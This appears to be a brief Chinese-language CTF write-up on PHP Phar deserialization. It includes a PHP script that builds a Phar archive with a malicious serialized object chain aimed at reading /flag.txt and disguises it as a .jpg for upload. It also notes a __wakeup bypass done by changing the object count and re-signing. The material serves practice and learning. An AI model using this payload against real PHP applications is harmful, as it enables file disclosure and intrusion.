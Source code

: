 phar

![1700913131273](C:\Users\86176\AppData\Roaming\Typora\typora-user-images\1700913131273.png)

先找这些函数，然后一步步找，最后根据模板写生成Phar的文件。

有脚本，

```
<?php
class FileList
{
    private $files;
    private $results;
    private $funcs;
    public function __construct(){
        $this->files=array();
        $a=new File('/flag.txt');
        array_push($this->files,$a);
    }
}
class File {
    public $filename;
    public function __construct($filename){
        $this->filename=$filename;
    }

}
class User
{
    public $db;
}
$a=new User();
$b=new FileList();
$a->db=$b;
@unlink("phar.phar");
$phar=new Phar("phar.phar");
$phar->startBuffering();
$phar->setStub("<?php __HALT_COMPILER();?>");//设置sutb
$phar->setMetadata($a);//将自定义的meta-data存入manifest
$phar->addFromString("1.txt","123123>");//添加要压缩的文件
//签名自动计算
$phar->stopBuffering();
unlink('./phar.jpg');
rename("./phar.phar","./phar.jpg");
```

模板

[[HNCTF 2022 WEEK3\]ez_phar | NSSCTF](https://www.nssctf.cn/problem/3018)

这道题使用模板写完。

我的理解是Phar反序列化就是正常反序列化+phar是读取。格式都差不多。

写完提交上传。然后使用phar://读取。（如果说要jpg,png....）等格式的，改个后缀直接传。

[[NSSRound#4 SWPU\]1zweb(revenge) | NSSCTF](https://www.nssctf.cn/problem/2493)

[php(phar)反序列化漏洞及各种绕过姿势_phar反序列化漏洞-CSDN博客](https://blog.csdn.net/MrWangisgoodboy/article/details/130146658?ops_request_misc=%7B%22request%5Fid%22%3A%22170262226016800188510421%22%2C%22scm%22%3A%2220140713.130102334..%22%7D&request_id=170262226016800188510421&biz_id=0&utm_medium=distribute.pc_search_result.none-task-blog-2~all~sobaiduend~default-1-130146658-null-null.142^v96^pc_search_result_base1&utm_term=php反序列化绕过异常&spm=1018.2226.3001.4187)

这个就是phar，然后他过滤了后缀，。我们需要压缩。其中有个wakeup(),再phar中改对象数目，但是签名对照不上，就需要用脚本改。

然后再压缩
